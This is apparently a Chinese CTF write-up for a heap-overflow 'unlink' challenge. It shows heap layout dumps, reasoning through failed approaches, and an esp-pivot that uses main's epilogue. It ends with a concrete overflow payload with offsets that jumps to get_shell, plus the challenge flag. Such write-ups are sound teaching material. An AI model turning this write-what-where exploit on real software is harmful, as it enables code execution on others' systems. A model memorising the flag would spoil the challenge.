

### unlink

这题模拟的堆溢出的题型，比实际中的少了很多保护，利用起来比较简单。

思路：堆溢出造成的 **有一定限制的任意地址写** ，具体写哪里，然后这个题有info leak，可以搞一下。

---

每个结构体是0x10大小，看一下堆结构

0x804b410:	0x0804b428(fd)	0x00000000   0x3636363636363636(input)  0x00000000	0x00000019
0x804b428:  0x0804b440(fd)	0x0804b410(bk)  0x00000000  0x00000000	0x00000000	0x00000019
0x804b428:  0xaaaaaaaa(fd)	0xbbbbbbbb(bk)  0x00000000  0x00000000	0x00000000	0x00000019
0x804b440:	0x00000000(fd)	0x0804b428(bk)	0x00000000	0x00000000  0x00000000	0x00000409

```
void unlink(OBJ* B){
	OBJ* BK;
	OBJ* FD;
	BK=B->bk;  BK = 0xbbbbbbbb
	FD=B->fd;  FD = 0xaaaaaaaa
	FD->bk=BK;  [0xaaaaaaaa+4] 写为 0xbbbbbbbb
	BK->fd=FD;  [0xbbbbbbbb] 写为 0xaaaaaaaa
}
```

---

这时候我有一个错误的思路，将栈地址上的main-ret写掉，有如下的exp

`print '6'*4*4 +'\xbc\xbc\xa1\xbf'+'\xeb\x84\x04\x08'`

将`addr(A)+0x28`写为`0x080484EB`

即0xaaaaaaaa = 0x0804866C; 0xbbbbbbbb = 0x080484EB;

然后发现不可以这么做，因为堆的地址每次都会变，gdb关掉了这个功能，所以需要重新弄一下

----

后来又想到一个问题，unlink是有两次写数据的，要让程序不崩掉，需要保证两处都是可以写的，上面我们的思路造成了两处写

```
stack[ret] = addr(get_shell)
addr(get_shell) = addr(stack[ret])
（省略offset）
```

get_shell在text段，显然不可以写入数据，此思路gg


只能写`fini_array`

使用这个命令`readelf -S unlink`
`[19] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4`

表示程序执行完了以后，跳到0x8048f0c

但还是之前的问题 addr(FINI_ARRAY) 与 addr(get_shell)的地址会相互写入对方的附近，显然text段是不可以写的

-----

**有写权限的段在IDA里ctrl+s是可以看的**



看来这题只能写栈和写堆，进行栈迁移，再使用ROP进行get_shell。

堆地址和栈地址均随机，好在这个题提供了这两个的位置。

1. 调用unlink的过程中，栈基本是不变的

		```
		push ebp
		mov ebp, esp
		xxx xxx
		leave  <---mov esp,ebp; pop ebp;
		retn
		```
	栈上存放的有【unlink-ebp, unlink-ret, main-ebp, main-ret】
	能控制的也只有unlink-ebp了，其他的感觉没啥大用

2. 一开始的思路是，先控制unlink-ebp，返回到main里ebp还在，在下一个leave的时候，即可写掉rsp。但是经过[Himyth](https://github.com/Himyth)指点，这个是不可用的，因为下文直接把rsp写掉了。并且给出了下一种思路。
3. 观察main函数，里面有一句push esp、pop esp类似的话，eip是从栈上拿的

		```
		mov ecx, esp
		push ecx
		xxx xxx
		call unlink <--- 控制ebp
		xxx xxx
		mov ecx, DWORD PTR [ebp-0x4] <--- 控制ecx = [ebp-4]
		leave <--- esp = ebp; pop ebp; <===不重要
		lea esp, [ecx-0x4] <--- main-ret 控制esp = ecx-4
		ret
		```
		我们可以将main-ret写掉，之后esp为我们写掉的数值，ret时候直接可以控制IP

-----

思路就用写掉esp的方法，从而在ret时候控制IP（即ROP）。之前思路错了那么多次也是惊呆了。

1. 计算offset

	stack:
		infoleak = 0xbfffef74;
		target = 0xbfffef58 <---target数值将来被写到ebp
		offset = -0x1C
	heap:
		infoleak = 0x804b410 <--addr(A)
		A->FD = base
		A->BK = base + 0x04
		input_string = base + 0x8
		B->FD = base + 0x18
		B->BK = base + 0x1C
		C->FD = base + 0x30
		D->BK = base + 0x34

2. 目标
		将stack_target写为堆上的的地址
		将堆布置好，将(ecx-4)写到堆上从而写到esp

3. 具体写入
		这里有一个注意的，我们写是从heap_base+8开始写的，不是从+0开始写的。
		[B->FD+4]被写为B->BK
		[B->BK]被写为B->FD
		**B->FD+4 == target**
		**B->BK == addr(x)** (x就是ebp被写入的值)
		`x, y` 需要满足的条件为在堆上
		**y == [x-4]** (mov ecx, [ebp-4])
		**esp == y-4** (mov esp, ecx-4)
		**[esp] = get_shell** (pop eip)
		==>
		令 x = heap_base + 0x50, y = heap_base + 0x54
		**B->FD = stack_infoleak - 0x1C - 4**
		**B->BK = heap_infoleak + 0x50**
		**[heap_base + 0x50 -8] = heap_infoleak + 0x58**
		**[heap_base + 0x50] = 0x080484ef**

4. 输入的string `'A'*4*4 + (stack_infoleak-0x20) + (heap_infoleak+0x50) + 'A'*0x2C + (heap_infoleak + 0x58) + 'AAAA' + addr(get_shell)`


flag
`conditional_write_what_where_from_unl1nk_explo1t`
